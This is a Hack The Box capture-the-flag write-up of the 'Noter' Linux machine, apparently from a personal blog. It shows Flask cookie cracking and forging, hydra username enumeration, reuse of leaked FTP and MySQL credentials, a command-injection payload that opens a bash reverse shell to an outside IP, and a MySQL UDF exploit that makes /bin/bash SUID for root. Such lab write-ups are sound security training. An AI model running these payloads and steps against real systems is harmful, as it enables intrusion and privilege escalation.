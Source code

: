 ```yaml
---
title: HTB | Noter
author: Zeropio
date: 2022-08-29
categories: [HackTheBox, Machines]
tags: [htb, linux, medium, machines]
permalink: /htb/labs/machines/noter
---
```


![HTB Img](/assets/img/hackthebox/card/Noter.png)

# Fingerprinting

The nmap gives us:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

If we created and account we can see a cookie after login.

# Footprinting

The **anonymous** user for FTP doesn’t work.

We can check the cookie we have: `eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiemVybyJ9.Ywyj5A.uzkuRLWLxKI9ty3BHCUOWVr9Szo` . We can use `flask-unsign`, from Python, to decrypt the cookie.

```console
zero@pio$ flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiemVybyJ9.Ywyj5A.uzkuRLWLxKI9ty3BHCUOWVr9Szo'
[*] Session decodes to: {'logged_in': True, 'username': 'zero'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```

We must use `—unsign`  to specify that we are using a wordlist, and `--no-literal-eval` to allow the cookie as a string (if not we get an error). We can see that the output differs from a invalid password than an invalid username, so we can try to get a list of valid users. Let’s use `hydra` for this:

```console
zero@pio$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'test' 10.10.11.160 -s 5000 http-post-form '/login:username=^USER^&password=test:S=<div class="alert alert-danger">Invalid login</div>'

[5000][http-post-form] host: 10.10.11.160   login: blue   password: test
```

Now we can use flask-unsign to generate the cookie, using the same format as our cookie:

```console
zero@pio$ flask-unsign --sign --secret 'secret123' --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YwypQA.7rj51Sgyf-usb-tvmGo4CKREIkk
```

And now we are in the blue user account:

![Untitled](/assets/img/hackthebox/labs/noter/Untitled.png)

Inside the premium notes, we can see the credentials `blue:blue@Noter!` . We can test the credentials works:

```console
zero@pio$ tp blue@10.10.11.160                                                                      
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
```

We can get a pdf with the password policy. There we can see that the default password is `username@site_name!`. In the note we can saw that is signed by the **ftp_admin** user, if we try the default password (`ftp_admin@Noter!`):

```console
zero@pio$ ftp ftp_admin@10.10.11.160
```

Inside we can see two zip files. Inside of them are the source code of the web. In one of them can be found the following lines:

```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'DB_user'
app.config['MYSQL_PASSWORD'] = 'DB_password'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```

As well as the secret:

```python
if __name__ == '__main__':
    app.secret_key='secret123'
    app.run(host="0.0.0.0",debug=False)
```

In the other, we have a non-default credentials:

```python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```

We cannot use the credentials for SSH. Also, the machine doesn’t have an opened port of MySQL so we cannot connect to it.

Going back to the web, we can see we can export notes from an URL to the server. In the source code, the app access this through a get. We will create a **shell.md** file with the content `--';bash -i >& /dev/tcp/10.10.16.44/443 0>&1;'—` . Open a netcat, and launch the file. Now we are inside the system. 

# Privilege Escalation

We can see is vulnerable to **CVE-2021-3560**, but using this [PoC](https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh) we see that the machine doesn’t have **Gnome-Control-Center**, necessary for the exploit.

We can try another path. The MySQL version is also vulnerable. Using this [exploit](https://www.exploit-db.com/exploits/1518) we can make it work. Download the exploit into the machine and follow the exploit. First, compile it:

```console
svc@noter:~$ gcc -g -c 1518.c
svc@noter:~$ gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
```

Following the instructions (we must change the path we upload the script from the exploitdb):

```console
svc@noter:~$ mysql -u'root' -p'Nildogg36'
MariaDB [(none)]> use mysql;
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/home/svc/1518.so'));
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/1518.so';
MariaDB [mysql]> create function do_system returns integer soname '1518.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
MariaDB [mysql]> exit
```

If everything works:

```console
svc@noter:~$ bash -p
bash-5.0# whoami
	root
```
